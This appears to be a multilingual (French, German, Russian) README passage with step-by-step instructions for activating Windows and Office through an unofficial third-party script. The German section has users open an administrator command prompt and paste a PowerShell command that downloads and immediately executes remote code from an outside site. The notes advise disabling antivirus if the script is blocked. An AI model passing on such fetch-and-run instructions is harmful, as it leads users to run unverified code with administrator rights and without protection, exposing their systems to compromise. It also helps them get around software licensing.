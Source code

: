 ## Étape 3 : Sélectionner le produit à activer

- Suivez les instructions à l’écran pour choisir Windows ou Office.

## Remarques
- Pour usage personnel uniquement, ne pas utiliser pour des logiciels non licenciés.
- Désactivez l’antivirus si le script est bloqué.
- En cas d’erreur, vérifiez la connexion internet et réessayez.

**Remarque :** Cet outil/script n’a pas été créé par moi, je ne fais que partager le guide.

---

# Anleitung zur Aktivierung von Windows & Office (Deutsch)

## Schritt 1: CMD als Administrator öffnen

- Gib "CMD" in das Suchfeld des Startmenüs ein.
- Rechtsklicke auf "Eingabeaufforderung" und wähle "Als Administrator ausführen".

## Schritt 2: Aktivierungsbefehl ausführen

- Kopiere und füge den folgenden Befehl in das CMD-Fenster ein:
  ```
  powershell iex (irm https://get.activated.win)
  ```
- Drücke Enter zum Ausführen.
- Warte etwa 30 Sekunden; der Server kann ausgelastet sein.

## Schritt 3: Produkt auswählen

- Folge den Anweisungen auf dem Bildschirm, um Windows oder Office zu aktivieren.

## Hinweise
- Nur für den persönlichen Gebrauch, nicht für unlizensierte Software.
- Deaktiviere Antivirus, falls das Skript blockiert wird.
- Bei Fehlern, überprüfe die Internetverbindung und versuche es erneut.

**Hinweis:** Dieses Tool/Skript wurde nicht von mir erstellt, ich teile nur die Anleitung.

---

# Руководство по активации Windows и Office (Русский)

## Шаг 1: Откройте CMD от имени администратора

- Введите "CMD" в строке поиска меню Пуск.
- Щелкните правой кнопкой мыши по "Командная строка" и выберите "Запуск от имени администратора".
